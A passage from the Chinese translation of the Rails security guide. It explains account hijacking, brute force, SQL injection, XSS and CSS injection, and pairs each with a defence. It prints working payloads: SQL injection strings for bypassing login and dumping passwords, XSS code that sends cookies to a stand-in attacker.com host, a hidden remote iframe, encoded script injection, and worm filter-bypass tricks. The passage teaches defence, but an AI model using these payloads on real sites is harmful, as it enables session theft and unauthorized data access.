还有一种常见的攻击方式是在 Web 应用中大量发布垃圾信息，通过博客、论坛来传播 XSS 恶意脚本。当然，攻击者还得知道 URL 地址的结构才能发动攻击，但是大多数 Rails 应用的 URL 地址结构都很简单，很容易就能搞清楚，对于开源应用的管理界面更是如此。通过包含恶意图片标签，攻击者甚至可以进行上千次猜测，把 URL 地址结构所有可能的组合都尝试一遍。

关于针对局域网和管理界面发动的 CSRF 攻击的对策，请参阅 <<csrf-countermeasures>>。

[[additional-precautions]]
==== 其他预防措施

通用管理界面的一般工作原理如下：通过 pass:[www.example.com/admin] 访问，访问仅限于 `User` 模型的 `admin` 字段设置为 `true` 的用户。管理界面中会列出用户输入的数据，管理员可以根据需要对数据进行删除、添加或修改。下面是关于管理界面的一些参考意见：

* 考虑最坏的情况非常重要：如果有人真的得到了用户的 cookie 或账号密码怎么办？可以为管理界面引入用户角色权限设计，以限制攻击者的权限。或者为管理界面启用特殊的登录账号密码，而不采用应用的其他部分所使用的账号密码。对于特别重要的操作，还可以要求用户输入专用密码。

* 管理员真的有可能从世界各地访问管理界面吗？可以考虑对登录管理界面的 IP 段进行限制。用户的 IP 地址可以通过 `request.remote_ip` 获取。这个解决方案虽然不能说万无一失，但确实为管理界面筑起了一道坚实的防线。不过在实际操作中，还要注意用户是否使用了代理服务器。

* 通过专用子域名访问管理界面，如 pass:[admin.application.com]，并为管理界面建立独立的应用和账户系统。这样，攻击者就无法从日常使用的域名（如 pass:[www.application.com]）中窃取管理员的 cookie。其原理是：基于浏览器的同源原则，在 pass:[www.application.com] 中注入的 XSS 脚本，无法读取 pass:[admin.application.com] 的 cookie，反之亦然。

[[user-management]]
=== 用户管理

NOTE: 几乎每个 Web 应用都必须处理授权和身份验证。自己实现这些功能并非首选，推荐的做法是使用插件。但在使用插件时，一定要记得及时更新。此外，还有一些预防措施可以使我们的应用更安全。

Rails 有很多可用的身份验证插件，其中有不少佳作，例如 link:https://github.com/plataformatec/devise[devise] 和 link:https://github.com/binarylogic/authlogic[authlogic]。这些插件只储存加密后的密码，而不储存明文密码。从 Rails 3.1 起，我们可以使用实现了类似功能的 `has_secure_password` 内置方法。

每位新注册用户都会收到一封包含激活码和激活链接的电子邮件，以便激活账户。账户激活后，该用户的数据库记录的 `activation_code` 字段会被设置为 `NULL`。如果有人访问了下列 URL 地址，就有可能以数据库中找到的第一个已激活用户的身份登录（有可能是管理员）：

----
http://localhost:3006/user/activate
http://localhost:3006/user/activate?id=
----

之所以出现这种可能性，是因为对于某些服务器，ID 参数 `params[:id]` 的值是 `nil`，而查找激活码的代码如下：

[source,ruby]
----
User.find_by_activation_code(params[:id])
----

当 ID 参数为 `nil` 时，生成的 SQL 查询如下：

[source,sql]
----
SELECT * FROM users WHERE (users.activation_code IS NULL) LIMIT 1
----

因此，查询结果是数据库中的第一个已激活用户，随后将以这个用户的身份登录。关于这个问题的更多介绍，请参阅link:http://www.rorsecurity.info/2007/10/28/restful_authentication-login-security/[这篇博客文章]。在使用插件时，建议及时更新。此外，通过代码审查可以找出应用的更多类似缺陷。

[[brute-forcing-accounts]]
==== 暴力破解账户

NOTE: 对账户的暴力攻击是指对登录的账号密码进行试错攻击。通过显示较为模糊的错误信息、要求输入验证码等方式，可以增加暴力破解的难度。

Web 应用的用户名列表有可能被滥用于暴力破解密码，因为大多数用户并没有使用复杂密码。大多数密码是字典中的单词组合，或单词和数字的组合。有了用户名列表和字典，自动化程序在几分钟内就可能找到正确密码。

因此，如果登录时用户名或密码不正确，大多数 Web 应用都会显示较为模糊的错误信息，如“用户名或密码不正确”。如果提示“未找到您输入的用户名”，攻击者就可以根据错误信息，自动生成精简后的有效用户名列表，从而提高攻击效率。

不过，容易被大多数 Web 应用设计者忽略的，是忘记密码页面。通过这个页面，通常能够确认用户名或电子邮件地址是否有效，攻击者可以据此生成用于暴力破解的用户名列表。

为了规避这种攻击，忘记密码页面也应该显示较为模糊的错误信息。此外，当某个 IP 地址多次登录失败时，可以要求输入验证码。但是要注意，这并非防范自动化程序的万无一失的解决方案，因为这些程序可能会频繁更换 IP 地址，不过毕竟还是筑起了一道防线。

[[account-hijacking]]
==== 账户劫持

对很多 Web 应用来说，实施账户劫持是一件很容易的事情。既然这样，为什么不尝试改变，想办法增加账户劫持的难度呢？

[[passwords]]
===== 密码

假设攻击者窃取了用户会话的 cookie，从而能够像用户一样使用应用。此时，如果修改密码很容易，攻击者只需点击几次鼠标就能劫持该账户。另一种可能性是，修改密码的表单容易受到 CSRF 攻击，攻击者可以诱使受害者访问包含精心设计的图像标签的网页，通过 CSRF 窃取密码。针对这种攻击的对策是，在修改密码的表单中加入 CSRF 防护，同时要求用户在修改密码时先输入旧密码。

[[e-mail]]
===== 电子邮件

然而，攻击者还能通过修改电子邮件地址来劫持账户。一旦攻击者修改了账户的电子邮件地址，他们就会进入忘记密码页面，通过新邮件地址接收找回密码邮件。针对这种攻击的对策是，要求用户在修改电子邮件地址时同样先输入旧密码。

[[other]]
===== 其他

针对不同的 Web 应用，还可能存在更多的劫持用户账户的攻击方式。这些攻击方式大都借助于 CSRF 和 XSS，例如 link:http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/[Gmail] 的 CSRF 漏洞。在这种概念验证攻击中，攻击者诱使受害者访问自己控制的网站，其中包含了精心设计的图像标签，然后通过 HTTP GET 请求修改 Gmail 的过滤器设置。如果受害者已经登录了 Gmail，攻击者就能通过修改后的过滤器把受害者的所有电子邮件转发到自己的电子邮件地址。这种攻击的危害性几乎和劫持账户一样大。针对这种攻击的对策是，通过代码审查封堵所有 XSS 和 CSRF 漏洞。

[[captchas]]
==== 验证码

TIP: 验证码是一种质询-响应测试，用于判断响应是否由计算机生成。验证码要求用户输入变形图片中的字符，以防恶意注册和发布垃圾评论。验证码又分为积极验证码和消极验证码。消极验证码的思路不是证明用户是人类，而是证明机器人是机器人。

link:https://www.google.com/recaptcha[reCAPTCHA] 是一种流行的积极验证码 API，它会显示两张来自古籍的单词的变形图像，同时还添加了弯曲的中划线。相比之下，早期的验证码仅使用了扭曲的背景和高度变形的文本，所以后来被破解了。此外，使用 reCAPTCHA 同时是在为古籍数字化作贡献。和 reCAPTCHA API 同名的 link:https://github.com/ambethia/recaptcha/[reCAPTCHA] 是一个 Rails 插件。

reCAPTCHA API 提供了公钥和私钥两个密钥，它们应该在 Rails 环境中设置。设置完成后，我们就可以在视图中使用 `recaptcha_tags` 方法，在控制器中使用 `verify_recaptcha` 方法。如果验证码验证失败，`verify_recaptcha` 方法返回 `false`。验证码的缺点是影响用户体验。并且对于视障用户，有些变形的验证码难以看清。尽管如此，积极验证码仍然是防止各种机器人提交表单的最有效的方法之一。

大多数机器人都很笨拙，它们在网上爬行，并在找到的每一个表单字段中填入垃圾信息。消极验证码正是利用了这一点，只要通过 JavaScript 或 CSS 在表单中添加隐藏的“蜜罐”字段，就能发现那些机器人。

注意，消极验证码只能有效防范笨拙的机器人，对于那些针对关键应用的专用机器人就力不从心了。不过，通过组合使用消极验证码和积极验证码，可以获得更好的性能表现。例如，如果“蜜罐”字段不为空（发现了机器人），再验证积极验码就没有必要了，从而避免了向 Google ReCaptcha 发起 HTTPS 请求。

通过 JavaScript 或 CSS 隐藏“蜜罐”字段有下面几种思路：

* 把字段置于页面的可见区域之外；
* 使元素非常小或使它们的颜色与页面背景相同；
* 仍然显示字段，但告诉用户不要填写。

最简单的消极验证码是一个隐藏的“蜜罐”字段。在服务器端，我们需要检查这个字段的值：如果包含任何文本，就说明请求来自机器人。然后，我们可以直接忽略机器人提交的表单数据。也可以提示保存成功但实际上并不写入数据库，这样被愚弄的机器人就会自动离开了。对于不受欢迎的用户，也可以采取类似措施。

Ned Batchelder 在link:http://nedbatchelder.com/text/stopbots.html[一篇博客文章]中介绍了更复杂的消极验证码：

* 在表单中包含带有当前 UTC 时间戳的字段，并在服务器端检查这个字段。无论字段中的时间过早还是过晚，都说该明表单不合法；
* 随机生成字段名；
* 包含各种类型的多个“蜜罐”字段，包括提交按钮。

注意，消极验证码只能防范自动机器人，而不能防范专用机器人。因此，消极验证码并非保护登录表单的最佳方案。

[[logging]]
==== 日志

WARNING: 告诉 Rails 不要把密码写入日志。

默认情况下，Rails 会记录 Web 应用收到的所有请求。但是日志文件也可能成为巨大的安全隐患，因为其中可能包含登录的账号密码、信用卡号码等。当我们考虑 Web 应用的安全性时，我们应该设想攻击者完全获得 Web 服务器访问权限的情况。如果在日志文件中可以找到密钥和密码的明文，在数据库中对这些信息进行加密就变得毫无意义。在应用配置文件中，我们可以通过设置 `config.filter_parameters` 选项，指定写入日志时需要过滤的请求参数。在日志中，这些被过滤的参数会显示为 `[FILTERED]`。

[source,ruby]
----
config.filter_parameters << :password
----

NOTE: 通过正则表达式，与配置中指定的参数部分匹配的所有参数都会被过滤掉。默认情况下，Rails 已经在初始化脚本（`initializers/filter_parameter_logging.rb`）中指定了 `:password` 参数，因此应用中常见的 `password` 和 `password_confirmation` 参数都会被过滤。

[[good-passwords]]
==== 好的密码

TIP: 你是否发现，要想记住所有密码太难了？请不要因此把所有密码都完整地记下来，我们可以使用容易记住的句子中单词的首字母作为密码。

安全技术专家 Bruce Schneier 通过分析<<examples-from-the-underground,后文>>提到的 link:http://www.schneier.com/blog/archives/2006/12/realworld_passw.html[MySpace 钓鱼攻击]中 34,000 个真实的用户名和密码，发现绝大多数密码非常容易破解。其中最常见的 20 个密码是：

----
password1, abc123, myspace1, password, blink182, qwerty1, ****you, 123abc, baseball1, football1, 123456, soccer, monkey1, liverpool1, princess1, jordan23, slipknot1, superman1, iloveyou1, monkey
----

有趣的是，这些密码中只有 4% 是字典单词，绝大多数密码实际是由字母和数字组成的。不过，用于破解密码的字典中包含了大量目前常用的密码，而且攻击者还会尝试各种字母数字的组合。如果我们使用弱密码，一旦攻击者知道了我们的用户名，就能轻易破解我们的账户。

好的密码是混合使用大小写字母和数字的长密码。但这样的密码很难记住，因此我们可以使用容易记住的句子中单词的首字母作为密码。例如，“The quick brown fox jumps over the lazy dog”对应的密码是“Tqbfjotld”。当然，这里只是举个例子，实际在选择密码时不应该使用这样的名句，因为用于破解密码的字典中很可能包含了这些名句对应的密码。

[[regular-expressions]]
==== 正则表达式

TIP: 在使用 Ruby 的正则表达式时，一个常见错误是使用 `^` 和 `$` 分别匹配字符串的开头和结尾，实际上正确的做法是使用 `\A` 和 `\z`。

Ruby 的正则表达式匹配字符串开头和结尾的方式与很多其他语言略有不同。甚至很多 Ruby 和 Rails 的书籍都把这个问题搞错了。那么，为什么这个问题会造成安全威胁呢？让我们看一个例子。如果想要不太严谨地验证 URL 地址，我们可以使用下面这个简单的正则表达式：

[source,ruby]
----
/^https?:\/\/[^\n]+$/i
----

这个正则表达式在某些语言中可以正常工作，但在 Ruby 中，`^` 和 `$` 分别匹配行首和行尾，因此下面这个 URL 能够顺利通过验证：

[source,javascript]
----
javascript:exploit_code();/*
http://hi.com
*/
----

之所以能通过验证，是因为用于验证的正则表达式匹配了这个 URL 的第二行，因而不会再验证其他两行。假设我们在视图中像下面这样显示 URL：

[source,ruby]
----
link_to "Homepage", @user.homepage
----

这个链接看起来对访问者无害，但只要一点击，就会执行 `exploit_code` 这个 JavaScript 函数或攻击者提供的其他 JavaScript 代码。

要想修正这个正则表达式，我们可以用 `\A` 和 `\z` 分别代替 `^` 和 `$`，即：

[source,ruby]
----
/\Ahttps?:\/\/[^\n]+\z/i
----

由于这是一个常见错误，Rails 已经采取了预防措施，如果提供的正则表达式以 `^` 开头或以 `$` 结尾，格式验证器（`validates_format_of`）就会抛出异常。如果确实需要用 `^` 和 `$` 代替 `\A` 和 `\z`（这种情况很少见），我们可以把 `:multiline` 选项设置为 `true`，例如：

[source,ruby]
----
# content 字符串应包含“Meanwhile”这样一行
validates :content, format: { with: /^Meanwhile$/, multiline: true }
----

注意，这种方式只能防止格式验证中的常见错误，在 Ruby 中，我们需要时刻记住，`^` 和 `$` 分别匹配行首和行尾，而不是整个字符串的开头和结尾。

[[privilege-escalation]]
==== 提升权限

WARNING: 只需纂改一个参数，就有可能使用户获得未经授权的权限。记住，不管我们如何隐藏或混淆，每一个参数都有可能被纂改。

用户最常篡改的参数是 ID，例如在 `pass:[http://www.domain.com/project/1]` 这个 URL 地址中，ID 是 `1`。在控制器中可以通过 `params` 得到这个 ID，通常的操作如下：

[source,ruby]
----
@project = Project.find(params[:id])
----

对于某些 Web 应用，这样做没问题。但如果用户不具有查看所有项目的权限，就不能这样做。否则，如果某个用户把 URL 地址中的 ID 改为 `42`，并且该用户没有查看这个项目的权限，结果却仍然能够查看项目。为此，我们需要同时查询用户的访问权限：

[source,ruby]
----
@project = @current_user.projects.find(params[:id])
----

对于不同的 Web 应用，用户能够纂改的参数也不同。根据经验，未经验证的用户输入都是不安全的，来自用户的参数都有被纂改的潜在风险。

通过混淆参数或 JavaScript 来实现安全性一点儿也不可靠。通过开发者工具，我们可以查看和修改表单的隐藏字段。JavaScript 常用于验证用户输入的数据，但无法防止攻击者发送带有不合法数据的恶意请求。Mozilla Firefox 的 Firebug 插件，可以记录每次请求，而且可以重复发起并修改这些请求，这样就能轻易绕过 JavaScript 验证。还有一些客户端代理，允许拦截进出的任何网络请求和响应。

[[injection]]
=== 注入攻击

TIP: 注入这种攻击方式，会把恶意代码或参数写入 Web 应用，以便在应用的安全上下文中执行。注入攻击最著名的例子是跨站脚本（XSS）和 SQL 注入攻击。

注入攻击非常复杂，因为相同的代码或参数，在一个上下文中可能是恶意的，但在另一个上下文中可能完全无害。这里的上下文指的是脚本、查询或编程语言，Shell 或 Ruby/Rails 方法等等。下面几节将介绍可能发生注入攻击的所有重要场景。不过第一节我们首先要介绍，面对注入攻击时如何进行综合决策。

[[whitelists-versus-blacklists]]
==== 白名单 vs 黑名单

NOTE: 对于净化、保护和验证操作，白名单优于黑名单。

黑名单可以包含垃圾电子邮件地址、非公开的控制器动作、造成安全威胁的 HTML 标签等等。与此相反，白名单可以包含可靠的电子邮件地址、公开的控制器动作、安全的 HTML 标签等等。尽管有些情况下我们无法创建白名单（例如在垃圾信息过滤器中），但只要有可能就应该优先使用白名单：

* 对于安全相关的控制器动作，在 `before_action` 选项中用 `except: [...]` 代替 `only: [...]`，这样就不会忘记为新建动作启用安全检查；
* 为防止跨站脚本（XSS）攻击，应允许使用 `<strong>` 标签，而不是去掉 `<script>` 标签，详情请参阅后文；
* 不要尝试通过黑名单来修正用户输入：
    ** 否则攻击者可以发起 `"<sc<script>ript>".gsub("<script>", "")` 这样的攻击；
    ** 对于非法输入，直接拒绝即可。

使用黑名单时有可能因为人为因素造成遗漏，使用白名单则能有效避免这种情况。

[[sql-injection]]
==== SQL 注入

TIP: Rails 为我们提供的方法足够智能，绝大多数情况下都能防止 SQL 注入。但对 Web 应用而言，SQL 注入是常见并具有毁灭性的攻击方式，因此了解这种攻击方式十分重要。

[[sql-injection-introduction]]
===== 简介

SQL 注入攻击的原理是，通过纂改传入 Web 应用的参数来影响数据库查询。SQL 注入攻击的一个常见目标是绕过授权，另一个常见目标是执行数据操作或读取任意数据。下面的例子说明了为什么要避免在查询中使用用户输入的数据：

[source,ruby]
----
Project.where("name = '#{params[:name]}'")
----

这个查询可能出现在搜索动作中，用户会输入想要查找的项目名称。如果恶意用户输入 `' OR 1 --`，将会生成下面的 SQL 查询：

[source,sql]
----
SELECT * FROM projects WHERE name = '' OR 1 --'
----

其中 `--` 表示注释开始，之后的所有内容都会被忽略。执行这个查询后，将返回项目数据表中的所有记录，也包括当前用户不应该看到的记录，原因是所有记录都满足查询条件。

[[bypassing-authorization]]
===== 绕过授权

通常 Web 应用都包含访问控制。用户输入登录的账号密码，Web 应用会尝试在用户数据表中查找匹配的记录。如果找到了，应用就会授权用户登录。但是，攻击者通过 SQL 注入，有可能绕过这项检查。下面的例子是 Rails 中一个常见的数据库查询，用于在用户数据表中查找和用户输入的账号密码相匹配的第一条记录。

[source,ruby]
----
User.find_by("login = '#{params[:name]}' AND password = '#{params[:password]}'")
----

如果攻击者输入 `' OR '1'='1` 作为用户名，输入 `' OR '2'>'1` 作为密码，将会生成下面的 SQL 查询：

[source,sql]
----
SELECT * FROM users WHERE login = '' OR '1'='1' AND password = '' OR '2'>'1' LIMIT 1
----

执行这个查询后，会返回用户数据表的第一条记录，并授权用户登录。

[[unauthorized-reading]]
===== 未经授权读取数据

UNION 语句用于连接两个 SQL 查询，并以集合的形式返回查询结果。攻击者利用 UNION 语句，可以从数据库中读取任意数据。还以前文的这个例子来说明：

[source,ruby]
----
Project.where("name = '#{params[:name]}'")
----

通过 UNION 语句，攻击者可以注入另一个查询：

----
') UNION SELECT id,login AS name,password AS description,1,1,1 FROM users --
----

结果会生成下面的 SQL 查询：

[source,sql]
----
SELECT * FROM projects WHERE (name = '') UNION
  SELECT id,login AS name,password AS description,1,1,1 FROM users --'
----

执行这个查询得到的结果不是项目列表（因为不存在名称为空的项目），而是用户名密码的列表。如果发生这种情况，我们只能祈祷数据库中的用户密码都加密了！攻击者需要解决的唯一问题是，两个查询中字段的数量必须相等，本例中第二个查询中的多个 1 正是为了解决这个问题。

此外，第二个查询还通过 `AS` 语句对某些字段进行了重命名，这样 Web 应用就会显示从用户数据表中查询到的数据。出于安全考虑，请把 Rails 升级至 link:http://www.rorsecurity.info/2008/09/08/sql-injection-issue-in-limit-and-offset-parameter/[2.1.1 或更高版本]。

[[sql-injection-countermeasures]]
===== 对策

Ruby on Rails 内置了针对特殊 SQL 字符的过滤器，用于转义 `'`、`"`、`NULL` 和换行符。当我们使用 `Model.find(id)` 和 `Model.find_by_something(something)` 方法时，Rails 会自动应用这个过滤器。但在 SQL 片段中，尤其是在条件片段（`where("...")`）中，需要为 `connection.execute()` 和 `Model.find_by_sql()` 方法手动应用这个过滤器。

为了净化受污染的字符串，在提供查询条件的选项时，我们应该传入数组而不是直接传入字符串：

[source,ruby]
----
Model.where("login = ? AND password = ?", entered_user_name, entered_password).first
----

如上所示，数组的第一个元素是包含问号的 SQL 片段，从第二个元素开始都是需要净化的变量，净化后的变量值将用于代替 SQL 片段中的问号。我们也可以传入散列来实现相同效果：

[source,ruby]
----
Model.where(login: entered_user_name, password: entered_password).first
----

只有在模型实例上，才能通过数组或散列指定查询条件。对于其他情况，我们可以使用 `sanitize_sql()` 方法。遇到需要在 SQL 中使用外部字符串的情况时，请养成考虑安全问题的习惯。

[[cross-site-scripting-xss]]
==== 跨站脚本（XSS）

TIP: 对 Web 应用而言，XSS 是影响范围最广、破坏性最大的安全漏洞。这种恶意攻击方式会在客户端注入可执行代码。Rails 提供了防御这种攻击的辅助方法。

[[entry-points]]
===== 切入点

存在安全风险的 URL 及其参数，是攻击者发动攻击的切入点。

最常见的切入点包括帖子、用户评论和留言本，但项目名称、文档名称和搜索结果同样存在安全风险，实际上凡是用户能够输入信息的地方都存在安全风险。而且，输入不仅来自网站上的输入框，也可能来自 URL 参数（公开参数、隐藏参数或内部参数）。记住，用户有可能拦截任何通信。有些工具和客户端代理可以轻易修改请求数据。此外还有横幅广告等攻击方式。

XSS 攻击的工作原理是：攻击者注入代码，Web 应用保存并在页面中显示这些代码，受害者访问包含恶意代码的页面。本文给出的 XSS 示例大多数只是显示一个警告框，但 XSS 的威力实际上要大得多。XSS 可以窃取 cookie、劫持会话、把受害者重定向到假冒网站、植入攻击者的赚钱广告、纂改网站元素以窃取登录用户名和密码，以及通过 Web 浏览器的安全漏洞安装恶意软件。

仅 2007 年下半年，在 Mozilla 浏览器中就发现了 88 个安全漏洞，Safari 浏览器 22 个， IE 浏览器 18个， Opera 浏览器 12个。link:http://eval.symantec.com/mktginfo/enterprise/white_papers/b-whitepaper_internet_security_threat_report_xiii_04-2008.en-us.pdf[赛门铁克《互联网安全威胁报告》]指出，仅 2007 年下半年，在浏览器插件中就发现了 239 个安全漏洞。link:http://pandalabs.pandasecurity.com/mpack-uncovered/[Mpack] 这个攻击框架非常活跃、经常更新，其作用是利用这些漏洞发起攻击。对于那些从事网络犯罪的黑客而言，利用 Web 应用框架中的 SQL 注入漏洞，在数据表的每个文本字段中插入恶意代码是非常有吸引力的。2008 年 4 月，超过 51 万个网站遭到了这类攻击，其中包括英国政府、联合国和其他一些重要网站。

[[html-javascript-injection]]
===== HTML / JavaScript 注入

XSS 最常用的语言非 JavaScript （最受欢迎的客户端脚本语言）莫属，并且经常与 HTML 结合使用。因此，对用户输入进行转义是必不可少的安全措施。

让我们看一个 XSS 的例子：

[source,html]
----
<script>alert('Hello');</script>
----

这行 JavaScript 代码仅仅显示一个警告框。下面的例子作用完全相同，只不过其用法不太常见：

[source,html]
----
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
----

[[cookie-theft]]
====== 窃取 cookie

到目前为止，本文给出的几个例子都不会造成实际危害，接下来，我们要看看攻击者如何窃取用户的 cookie（进而劫持用户会话）。在 JavaScript 中，可以使用 `document.cookie` 属性来读写文档的 cookie。JavaScript 遵循同源原则，这意味着一个域名上的脚本无法访问另一个域名上的 cookie。`document.cookie` 属性中保存的是相同域名 Web 服务器上的 cookie，但只要把代码直接嵌入 HTML 文档（就像 XSS 所做的那样），就可以读写这个属性了。把下面的代码注入自己的 Web 应用的任何页面，我们就可以看到自己的 cookie：

[source,html]
----
<script>document.write(document.cookie);</script>
----

当然，这样的做法对攻击者来说并没有意义，因为这只会让受害者看到自己的 cookie。在接下来的例子中，我们会尝试从 pass:[http://www.attacker.com/] 这个 URL 地址加载图像和 cookie。当然，因为这个 URL 地址并不存在，所以浏览器什么也不会显示。但攻击者能够通过这种方式，查看 Web 服务器的访问日志文件，从而看到受害者的 cookie。

[source,html]
----
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
----

pass:[www.attacker.com] 的日志文件中将出现类似这样的一条记录：

----
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
----

在 cookie 中添加 `httpOnly` 标志可以规避这种攻击，这个标志可以禁止 JavaScript 读取 `document.cookie` 属性。IE v6.SP1、 Firefox v2.0.0.5、Opera 9.5、Safari 4 和 Chrome 1.0.154 以及更高版本的浏览器都支持 `httpOnly` 标志，Safari 浏览器也在考虑支持这个标志。但其他浏览器（如 WebTV）或旧版浏览器（如 Mac 版 IE 5.5）不支持这个标志，因此遇到上述攻击时会导致网页无法加载。需要注意的是，即便设置了 `httpOnly` 标志，通过 link:https://www.owasp.org/index.php/HTTPOnly#Browsers_Supporting_HttpOnly[Ajax] 仍然可以读取 cookie。

[[defacement]]
====== 涂改信息

通过涂改网页信息，攻击者可以做很多事情，例如，显示虚假信息，或者诱使受害者访问攻击者的网站以窃取受害者的 cookie、登录用户名和密码或其他敏感信息。最常见的信息涂改方式是通过 iframe 加载外部代码：

[source,html]
----
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
----

这行代码可以从外部网站加载任何 HTML 和 JavaScript 代码并嵌入当前网站，来自黑客使用 link:http://isc.sans.org/diary.html?storyid=3015[Mpack 攻击框架]攻击某个意大利网站的真实案例。Mpack 会尝试利用 Web 浏览器的安全漏洞安装恶意软件，成功率高达 50%。

更专业的攻击可以覆盖整个网站，也可以显示一个和原网站看起来一模一样的表单，并把受害者的用户名密码发送到攻击者的网站，还可以使用 CSS 和 JavaScript 隐藏原网站的正常链接并显示另一个链接，把用户重定向到假冒网站上。

反射式注入攻击不需要储存恶意代码并将其显示给用户，而是直接把恶意代码包含在 URL 地址中。当搜索表单无法转义搜索字符串时，特别容易发起这种攻击。例如，访问下面这个链接，打开的页面会显示，“乔治·布什任命一名 9 岁男孩担任议长……”：footnote:[此链接已失效，应该是网站修复了这个安全漏洞。——译者注]

----
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
----

[[cross-site-scripting-xss-countermeasures]]
====== 对策

TIP: 过滤恶意输入非常重要，但是转义 Web 应用的输出同样也很重要。

尤其对于 XSS，重要的是使用白名单而不是黑名单过滤输入。白名单过滤规定允许输入的值，反之，黑名单过滤规定不允许输入的值。经验告诉我们，黑名单永远做不到万无一失。

假设我们通过黑名单从用户输入中删除 `script`，如果攻击者注入 `<scrscriptipt>`，过滤后就能得到 `<script>`。Rails 的早期版本在 `strip_tags()`、`strip_links()` 和 `sanitize()` 方法中使用了黑名单，因此有可能受到下面这样的注入攻击：

[source,ruby]
----
strip_tags("some<<b>script>alert('hello')<</b>/script>")
----

这行代码会返回 `some<script>alert('hello')</script>`，也就是说攻击者可以发起注入攻击。这个例子说明了为什么白名单比黑名单更好。Rails 2 及更高版本中使用了白名单，下面是使用新版 `sanitize()` 方法的例子：

[source,ruby]
----
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
----

通过规定允许使用的标签，`sanitize()` 完美地完成了过滤输入的任务。不管攻击者使出什么样的花招、设计出多么畸型的标签，都难逃被过滤的命运。

接下来应该转义应用的所有输出，特别是在需要显示未经过滤的用户输入时（例如前面提到的的搜索表单的例子）。使用 `escapeHTML()` 方法（或其别名 `h()` 方法），把 HTML 中的字符 `&`、`"`、`<` 和 `>` 替换为对应的转义字符 `+&amp;+`、`+&quot;+`、`+&lt;+` 和 `+&gt;+`。

[[obfuscation-and-encoding-injection]]
====== 混淆和编码注入

早先的网络流量主要基于有限的西文字符，后来为了传输其他语言的字符，出现了新的字符编码，例如 Unicode。这也给 Web 应用带来了安全威胁，因为恶意代码可以隐藏在不同的字符编码中。Web 浏览器通常可以处理不同的字符编码，但 Web 应用往往不行。下面是通过 UTF-8 编码发动攻击的例子：

[source,html]
----
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;
  &#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
----

上述代码运行后会弹出一个消息框。不过，前面提到的 `sanitize()` 过滤器能够识别此类代码。link:https://hackvertor.co.uk/public[Hackvertor] 是用于字符串混淆和编码的优秀工具，了解这个工具可以帮助我们知己知彼。Rails 提供的 `sanitize()` 方法能够有效防御编码注入攻击。

[[examples-from-the-underground]]
====== 真实案例

TIP: 为了了解当前针对 Web 应用的攻击方式，最好看几个真实案例。

下面的代码摘录自 link:http://www.symantec.com/security_response/writeup.jsp?docid=2006-061211-4111-99&tabid=1[Js.Yamanner@m] 制作的雅虎邮件link:http://groovin.net/stuff/yammer.txt[蠕虫]。该蠕虫出现于 2006 年 6 月 11 日，是首个针对网页邮箱的蠕虫：

----
<img src='http://us.i1.yimg.com/us.yimg.com/i/us/nt/ma/ma_mail_1.gif'
  target=""onload="var http_request = false;    var Email = '';
  var IDList = '';   var CRumb = '';   function makeRequest(url, Func, Method,Param) { ...
----

该蠕虫利用了雅虎 HTML/JavaScript 过滤器的漏洞，这个过滤器用于过滤 HTML 标签中的所有 `target` 和 `onload` 属性（原因是这两个属性的值可以是 JavaScript）。因为这个过滤器只会执行一次，上述例子中 `onload` 属性中的蠕虫代码并没有被过滤掉。这个例子很好地诠释了黑名单永远做不到万无一失，也说明了 Web 应用为什么通常都会禁止输入 HTML/JavaScript。

另一个用于概念验证的网页邮箱蠕虫是 Ndjua，这是一个针对四个意大利网页邮箱服务的跨域名蠕虫。更多介绍请阅读 link:http://www.xssed.com/news/37/Nduja_Connection_A_cross_webmail_worm_XWW/[Rosario Valotta 的论文]。刚刚介绍的这两个蠕虫，其目的都是为了搜集电子邮件地址，一些从事网络犯罪的黑客可以利用这些邮件地址获取非法收益。

2006 年 12 月，在一次link:http://news.netcraft.com/archives/2006/10/27/myspace_accounts_compromised_by_phishers.html[针对 MySpace 的钓鱼攻击]中，黑客窃取了 34,000 个真实用户名和密码。这次攻击的原理是，创建名为“login_home_index_html”的个人信息页面，并使其 URL 地址看起来十分正常，同时通过精心设计的 HTML 和 CSS，隐藏 MySpace 的真正内容，并显示攻击者创建的登录表单。

[[css-injection]]
==== CSS 注入

TIP: CSS 注入实际上是 JavaScript 注入，因为有的浏览器（如 IE、某些版本的 Safari 和其他浏览器）允许在 CSS 中使用 JavaScript。因此，在允许 Web 应用使用自定义 CSS 时，请三思而后行。

著名的 link:http://namb.la/popular/tech.html[MySpace Samy 蠕虫]是解释 CSS 注入攻击原理的最好例子。这个蠕虫只需访问用户的个人信息页面就能向 Samy（攻击者）发送好友请求。在短短几个小时内，Samy 就收到了超过一百万个好友请求，巨大的流量致使 MySpace 宕机。下面我们从技术角度来分析这个蠕虫。

MySpace 禁用了很多标签，但允许使用 CSS。因此，蠕虫的作者通过下面这种方式把 JavaScript 值入 CSS 中：

[source,html]
----
<div style="background:url('javascript:alert(1)')">
----

这样 `style` 属性就成为了恶意代码。在这段恶意代码中，不允许使用单引号和多引号，因为这两种引号都已经使用了。但是在 JavaScript 中有一个好用的 `eval()` 函数，可以把任意字符串作为代码来执行。

[source,html]
----
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
----

`eval()` 函数是黑名单输入过滤器的噩梦，它使 `innerHTML` 这个词得以藏身 `style` 属性之中：

[source,javascript]
----
alert(eval('document.body.inne' + 'rHTML'));
----

下一个问题是，MySpace 会过滤 `javascript` 这个词，因此作者使用 `java<NEWLINE>script` 来绕过这一限制：

[source,html]
----
<div id="mycode" expr="alert('hah!')" style="background:url('java↵ 
script:eval(document.all.mycode.expr)')">
----

<<cross-site-request-forgery-csrf,CSRF 安全令牌>>是蠕虫作者面对的另一个问题。如果没有令牌，就无法通过 POST 发送好友请求。解决方案是，在添加好友前先向用户的个人信息页面发送 GET 请求，然后分析返回结果以获取令牌。

